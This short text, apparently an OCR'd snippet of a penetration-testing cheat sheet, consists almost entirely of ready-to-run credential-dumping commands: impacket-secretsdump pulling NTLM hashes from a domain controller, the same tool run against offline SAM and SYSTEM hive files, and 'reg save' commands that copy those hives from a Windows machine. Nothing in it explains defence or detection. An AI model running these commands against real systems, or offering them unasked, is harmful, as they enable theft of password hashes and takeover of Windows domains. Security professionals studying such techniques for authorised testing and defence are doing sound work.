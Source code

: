 ```Shell
impacket-secretsdump -just-dc-ntlm domain.local/user@dc_1.2.3.4
```


```Shell
impacket-secretsdump -sam sam.bak -system system.bak LOCAL
```

To take sam.bak and system.bak:
```CMD
reg save hklm\sam sam.bak
reg save hklm\system system.bak
```
